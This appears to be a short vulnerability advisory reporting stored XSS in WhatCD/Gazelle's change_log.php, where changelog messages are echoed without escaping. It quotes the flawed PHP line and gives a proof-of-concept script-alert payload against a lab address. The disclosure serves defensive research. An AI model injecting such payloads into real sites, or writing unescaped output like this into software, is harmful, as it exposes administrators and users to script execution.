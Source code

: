 # Stored XSS vulnerability in [WhatCD/Gazelle ](https://github.com/WhatCD/Gazelle) vlatest of file /change_log.php

**vender**:

- [WhatCD/Gazelle](https://github.com/WhatCD/Gazelle)

**SoftLink**:

- [WhatCD/Gazelle](https://github.com/WhatCD/Gazelle)

**Vulnerable File**

- sections/tools/managers/change_log.php

**Version**

- v latest 
- commit 63b3370

### Anaylse

**Vulnerability 1: Unescaped changelog message output**

```php
<div class="pad">
    <?=$Change['Message']?>
</div>
```

- **Issue**: `$Change['Message']` is fetched straight from the database and echoed **without any HTML escaping**.
- **Risk**: An attacker can inject HTML/JavaScript payloads such as `<script>` or `<img onerror>` into the `message` field; these payloads will execute whenever an administrator or user views the changelog.

### POC

```
http://192.168.100.101/Gazelle/sections/tools/managers/change_log.php
```

```
<script>alert('Stored XSS')</script>
```



![image-20250827021116087](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508270211233.png)



![image-20250827021044296](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508270210395.png)